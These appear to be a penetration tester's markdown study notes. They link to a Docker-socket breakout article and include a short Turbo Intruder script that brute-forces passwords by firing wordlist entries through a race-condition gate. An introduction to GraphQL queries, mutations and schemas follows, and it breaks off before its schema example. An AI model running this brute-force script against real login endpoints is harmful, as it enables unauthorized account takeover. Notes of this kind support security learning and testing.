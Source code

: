 ### REFERENCE-:

- [Owasp-Vitcc](https://medium.com/owasp-vitcc/docker-breakout-mounted-docker-socket-76cb77794158)

-------------

### RACE CONDITION CODE SNIPPETS [Turbo Intruder]

-------------

- Password-bruteforce-:

```python3
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    for word in open("C:\Users\HP\Documents\wordlist.txt"):
        engine.queue(target.req, word.rstrip(), gate='race1')
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

--------------

- [Hackingarticles](https://www.hackingarticles.in/burp-suite-for-pentester-turbo-intruder/)

--------------

### Understanding Graphql

--------------

- Graphql is a query language that allows effective communication between clients and servers.It allows a user to specify the amount of data that they need and prevents calling multiple objects.Clients make a query to a specific server and data is gotten from various places.
- Data in graphql can be manipulated in three ways.
  - Queries fetch data
  - Mutations add,change or remove data
  - Subscriptions are similar to queries, but set up a permanent connection by which a server can proactively push data to a client in the specified format.

---------------

### Graphql SCHEMA

---------------

- In GraphQL, the schema represents a contract between the frontend and backend of the service. It defines the data available as a series of types, using a human-readable schema definition language.The example below shows a simple schema definition for a Product type. The ! operator indicates that the field is non-nullable when called (that is, mandatory).
